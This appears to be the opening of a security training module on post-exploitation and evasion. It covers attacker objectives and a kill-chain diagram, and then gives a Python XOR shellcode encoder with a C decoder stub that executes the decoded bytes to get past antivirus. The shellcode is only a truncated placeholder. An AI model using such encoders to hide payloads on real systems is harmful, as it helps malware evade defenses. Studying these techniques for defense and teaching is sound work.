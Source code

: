 # Fundamentals of Evasion and Post Exploitation Techniques

## Introduction

After gaining initial access to a system, the real work begins. Post-exploitation involves maintaining access, gathering information, and achieving objectives while evading detection. This module covers techniques for staying hidden and maximizing the value of compromised systems.

## Post-Exploitation Overview

### Objectives

1. **Maintain Access**: Establish persistence mechanisms
2. **Gather Intelligence**: Collect valuable information
3. **Lateral Movement**: Expand access to other systems
4. **Privilege Escalation**: Gain higher-level permissions
5. **Data Exfiltration**: Extract target information
6. **Cover Tracks**: Remove evidence of compromise

### The Kill Chain

```
Initial Access → Execution → Persistence → Privilege Escalation
     ↓              ↓            ↓                ↓
Defense Evasion ← Credential Access ← Discovery ← Lateral Movement
     ↓
Collection → Exfiltration → Impact
```

## Evasion Techniques

### 1. Antivirus Evasion

#### Obfuscation

```python
# Simple XOR encoding
def xor_encode(data, key):
    return bytes([b ^ key for b in data])

# Encode shellcode
shellcode = b"\x31\xc0\x50\x68..."
key = 0x42
encoded = xor_encode(shellcode, key)

# Decoder stub
decoder = f"""
unsigned char encoded[] = {{{','.join(f'0x{b:02x}' for b in encoded)}}};
unsigned char decoded[{len(encoded)}];
for(int i=0; i<{len(encoded)}; i++) {{
    decoded[i] = encoded[i] ^ 0x{key:02x};
}}
((void(*)())decoded)();
"""
```

